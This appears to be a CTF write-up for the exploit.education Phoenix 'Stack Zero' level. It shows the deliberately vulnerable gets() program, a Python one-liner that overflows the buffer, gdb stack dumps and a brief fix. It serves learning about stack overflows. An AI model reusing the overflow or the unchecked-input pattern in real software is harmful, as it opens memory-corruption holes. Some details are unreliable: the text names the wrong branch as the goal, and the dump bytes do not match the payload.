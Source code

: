 ```yaml
---
layout: post
title: "Stack 0x0"
category: CTF 
tagline:
tags: [binary exploitation phoenix wargame ctf learning]
---
```

{% include JB/setup %}

# Stack 0

Write-up for: https://exploit.education/phoenix/stack-zero/

<!--more-->

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
    "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
    struct {
        char buffer[64];
        volatile int changeme;
    } locals;

    printf("%s\n", BANNER);

    locals.changeme = 0;
    gets(locals.buffer);

    if (locals.changeme != 0) {
        puts("Well done, the 'changeme' variable has been changed!");
    } else {
        puts(
            "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
    }

    exit(0);
}
```

The goal of this challenge is to force the program to branch to the else path.
This can be easily achieved by overwriting the buffer member of the locals struct. By wrting past the bounds (vulnerable function is gets) of buffer, the 32-bit integer changeme can be overwritten.

```
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*64 + "B"*4' | ./stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

# Debugging

Stack before the call to `gets`:

```
(gdb) x/32xw $esp
0xffffd554:     0x00000000      0x0000006f      0x00000010      0x080482b4
0xffffd564:     0x08048551      0x00000000      0x0000004e      0x00000000
0xffffd574:     0x00000000      0x00000000      0x00000000      0x00000011
0xffffd584:     0xf7ffd19c      0x00000000      0x08048294      0x00000000
0xffffd594:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd5a4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd5b4:     0xffffd5d0      0xffffd650      0xf7f8f654      0xffffd644
0xffffd5c4:     0x00000002      0xffffd650      0xf7f8f654      0x00000002
```

After the overflow:

```
(gdb) x/32xw $esp
0xffffd550:     0xffffd56c      0x00000000      0x0000006f      0x00000010
0xffffd560:     0x080482b4      0x08048551      0x00000000      0x41414141
0xffffd570:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd580:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd590:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c0:     0x41414141      0x00006141      0xffffd650      0xf7f8f654
```

# Fix

This vulnerability can be remediated by properly checking the bounds of the input data.
